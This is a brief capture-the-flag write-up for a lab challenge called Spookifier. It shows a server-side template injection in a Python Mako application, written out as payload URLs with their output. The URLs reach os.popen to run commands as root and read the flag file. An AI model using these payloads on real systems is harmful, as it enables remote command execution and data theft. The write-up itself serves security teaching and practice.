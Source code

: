 # Spookifier CTF Writeup

## Table of Contents
1. [Introduction](#introduction)
2. [Challenge Description](#challenge-description)
3. [Solution](#solution)
    - [Step 1: Reconnaissance](#step-1-reconnaissance)
    - [Step 2: Exploitation](#step-2-exploitation)

## Introduction
There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?

## Challenge Description
server is using python code and render template from user's input without santize or protected.

## Solution

### Step 1: Reconnaissance
```
http://host:port/?text=${7*7}
```
-> 49 -> `SSTI`

### Step 2: Exploitation
- Step 1
```
http://host:port/?text=${self.module.cache.util}
-> module 'mako.util' from '/usr/local/lib/python3.8/site-packages/mako/util.py'
```
- Step 2
```
http://host:port/?text=${self.module.cache.util.os.popen('id').read()}
-> uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```
- step 3
```
http://host:port/?text=${self.module.cache.util.os.popen('cat+/flag.txt').read()}
-> HTB{....}
```

